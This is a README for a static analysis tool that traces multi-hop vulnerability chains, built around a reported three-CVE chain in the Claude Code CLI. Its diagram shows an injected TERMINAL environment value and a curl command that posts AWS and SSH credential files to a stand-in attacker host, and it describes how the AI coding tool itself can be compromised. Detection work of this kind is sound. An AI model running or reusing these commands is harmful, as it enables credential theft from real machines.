

# vuln-chain-detector

> **This project is an attempt to codify and operationalize the vulnerability chain reasoning capabilities demonstrated by Anthropic's Claude AI model.** Claude can reason across multi-hop exploit paths — tracing tainted data through session boundaries, across file systems, and through execution contexts — in a way that most static analysis tools cannot. This engine takes that reasoning and turns it into a deterministic, auditable, pattern-driven static analysis system.
>
> Built by reverse-engineering the analysis Claude performed on three chained CVEs in the Claude Code CLI (CVE-2026-35020, CVE-2026-35021, CVE-2026-35022). See [examples/real-world-case-study.md](examples/real-world-case-study.md) for the full breakdown.

---

## The Problem Single-Vuln Scanners Miss

Most SAST tools detect individual sinks in isolation:
- "This `exec()` call is dangerous"
- "This env var is unvalidated"

They don't detect **chains** — where the output of one vulnerability becomes the input of another, especially across session boundaries (written to config file in session A, executed in session B). This engine does.

---

## Chain Visualization

The following diagram represents the real-world CVE chain this engine was designed to detect:

```
┌─────────────────────────────────────────────────────────────────────────────────┐
│                    VULNERABILITY CHAIN — CVE-2026-35020/21/22                   │
│                         Claude Code CLI (Anthropic)                             │
└─────────────────────────────────────────────────────────────────────────────────┘

  SESSION A (Attacker-controlled environment)
  ═══════════════════════════════════════════

  [ATTACKER]
      │
      │  Sets: TERMINAL='touch /tmp/pwned; echo sk-ant-fake'
      │        via .env file, CI/CD variable, or Docker directive
      ▼
  ┌─────────────────────────────────────┐
  │  SOURCE: process.env.TERMINAL       │  ← CVE-2026-35020
  │  which.ts:12                        │    CWE-78 | CVSS 8.4
  └────────────────┬────────────────────┘    No user interaction
                   │ DIRECT_FLOW
                   ▼
  ┌─────────────────────────────────────┐
  │  PASSTHROUGH: `which ${command}`    │
  │  Template literal (taint preserved) │
  └────────────────┬────────────────────┘
                   │ TRANSFORM_FLOW
                   ▼
  ┌─────────────────────────────────────┐
  │  SINK: execa(cmd, {shell:true})     │  ← Initial code execution
  │  which.ts:44                        │    Payload runs here
  └────────────────┬────────────────────┘
                   │ Payload executes
                   ▼
  ┌─────────────────────────────────────┐
  │  STORE: fs.writeFileSync(           │  ← Persistence
  │    '~/.claude/settings.json',       │    Tainted config written
  │    { apiKeyHelper: 'curl ...' }     │
  │  )                                  │
  └────────────────┬────────────────────┘
                   │
  ════════════════ │ ═══════════════════ SESSION BOUNDARY ═══════════════════════
                   │  STORED_FLOW (cross-session)
  SESSION B (Next time victim runs claude)
  ════════════════════════════════════════
                   │
                   ▼
  ┌─────────────────────────────────────┐
  │  LOAD: JSON.parse(                  │  ← Config loaded next session
  │    readFileSync('settings.json')    │    All fields inherit taint
  │  )                                  │
  └────────────────┬────────────────────┘
                   │ STORED_FLOW
                   ▼
  ┌─────────────────────────────────────┐
  │  PASSTHROUGH: config.apiKeyHelper   │
  │  Tainted field from loaded config   │
  └────────────────┬────────────────────┘
                   │ CALL_FLOW
                   ▼
  ┌─────────────────────────────────────┐
  │  SINK: execa(apiKeyHelper,          │  ← CVE-2026-35022
  │    {shell:true})                    │    CWE-78 | CVSS 9.9 (CI/CD)
  │  auth.ts:88                         │    Runs BEFORE auth validates
  └────────────────┬────────────────────┘
                   │ Exfiltration executes
                   ▼
  ┌─────────────────────────────────────┐
  │  EXFIL: curl -X POST attacker.com   │
  │  -d "$(cat ~/.aws/credentials)"     │  ← AWS keys, SSH keys,
  │  -d "$(cat ~/.ssh/id_rsa)"          │    API tokens, MEMORY.md
  └─────────────────────────────────────┘

  CHAIN SCORE: 10.0 (Critical)  |  Hops: 6  |  Session-crossing: YES
  No user interaction required  |  CI/CD multiplier active
```



---

## Scanner Coverage

This engine covers all major AST scanner categories — not just SAST:

| Scanner Type | Coverage | Chain Examples Detected |
|---|---|---|
| **SAST** (Static Code Analysis) | Full | Env var → shell exec, eval injection, path traversal |
| **SCA** (Software Composition Analysis) | Full | Vulnerable dep → tainted API → exec sink |
| **DAST** (Dynamic / Runtime) | Pattern-based | HTTP input → multi-hop → OS exec, SSRF chains |
| **IAST** (Interactive / Runtime Instrumentation) | Pattern-based | Runtime taint propagation through instrumented calls |
| **Secrets** | Full | Hardcoded secret → network exfil, secret in config → exec |
| **Container / IaC** | Full | Dockerfile ENV → entrypoint injection, Helm value injection |

Full details: [docs/scanner-types.md](docs/scanner-types.md)

---

## Architecture Overview

```
Sources → Taint Tracker → Chain Graph → Scorer → Output (SARIF)
              ↕
         Pattern Library (YAML)
              ↕
      Scanner Type Adapters
   (SAST / SCA / DAST / IAST / Secrets / Container)
```

Full details: [docs/architecture.md](docs/architecture.md)

---

## Quick Start

```bash
npm install
npm run build

# Scan a directory (SAST mode)
npm run scan -- --target ./path/to/project

# Scan with specific scanner type
npm run scan -- --target . --scanner sast
npm run scan -- --target . --scanner sca
npm run scan -- --target . --scanner secrets

# Scan all types
npm run scan -- --target . --scanner all

# Output SARIF (GitHub / Jira / Snyk integration)
npm run scan -- --target . --format sarif --out results.sarif
```

---

## Real-World Case Study

The engine was initially designed and validated against a real 3-CVE chain in the Claude Code CLI.

Full case study: [examples/real-world-case-study.md](examples/real-world-case-study.md)

| CVE | Component | Type | CVSS | Chain Role |
|---|---|---|---|---|
| CVE-2026-35020 | `which.ts` | Env var → shell exec | 8.4 | Initial foothold |
| CVE-2026-35021 | `promptEditor.ts` | File path → cmd substitution | 7.8 | Lateral movement |
| CVE-2026-35022 | `auth.ts` | Config helper → credential exfil | 9.9 | Persistence + exfil |

---

## Output Format

```
CHAIN DETECTED ─────────────────────────────────────────────────
  ID:                 CHAIN-a3f7c2
  Severity:           Critical
  Score:              10.0
  Pattern:            credential-exfil-chain
  Hops:               6
  Session-crossing:   YES
  User interaction:   NOT REQUIRED
  Zero-day:           NO (matched CVE pattern)

  Step 1  SOURCE       process.env.TERMINAL          which.ts:12
  Step 2  PASSTHROUGH  `which ${command}`             which.ts:42
  Step 3  SINK         execa({shell:true})            which.ts:44
  Step 4  STORE        fs.writeFileSync settings.json [Session A]
  Step 5  LOAD         JSON.parse readFileSync        [Session B]
  Step 6  SINK         execa(apiKeyHelper)            auth.ts:88

  Fix: Use args array instead of shell strings. Validate apiKeyHelper
       against allowlist before execution.
  Refs: CVE-2026-35020, CVE-2026-35022
─────────────────────────────────────────────────────────────────
```

---

## Repository Structure

```
vuln-chain-detector/
├── docs/
│   ├── architecture.md       # Engine design
│   ├── taint-analysis.md     # Taint tracking deep dive
│   ├── chain-scoring.md      # Scoring formula
│   ├── scanner-types.md      # SAST/SCA/DAST/IAST/Secrets/Container coverage
│   └── eng-instructions.md  # Step-by-step build guide
├── patterns/
│   ├── sast/                 # Code injection, path traversal, eval
│   ├── sca/                  # Dependency vulnerability chains
│   ├── dast/                 # HTTP input chains
│   ├── secrets/              # Hardcoded secret chains
│   └── container/            # Dockerfile / IaC chains
├── src/
│   ├── sources/              # Source node definitions
│   ├── sinks/                # Sink node definitions
│   ├── taint/                # Taint graph builder
│   ├── scoring/              # Chain scoring
│   ├── scanners/             # Scanner type adapters
│   └── output/               # SARIF / CLI output
├── examples/
│   ├── real-world-case-study.md   # Claude Code CLI CVE chain
│   └── cve-chain-example.yaml     # Ground-truth test cases
└── tests/
    └── fixtures/             # Vulnerable code samples
```

---

## Integration

| Platform | Method |
|---|---|
| GitHub Code Scanning | Upload SARIF via `actions/upload-sarif` |
| Snyk | Feed results via Snyk Issues API |
| Jira | Auto-create P0 tickets via webhook on Critical chains |
| VS Code | SARIF Viewer extension reads output directly |

---

## Attribution

Vulnerability chain reasoning methodology derived from AI-assisted security analysis.
Original CVE chain analysis: [phoenix.security](https://phoenix.security/claude-code-leak-to-vulnerability-three-cves-in-claude-code-cli-and-the-chain-that-connects-them/)
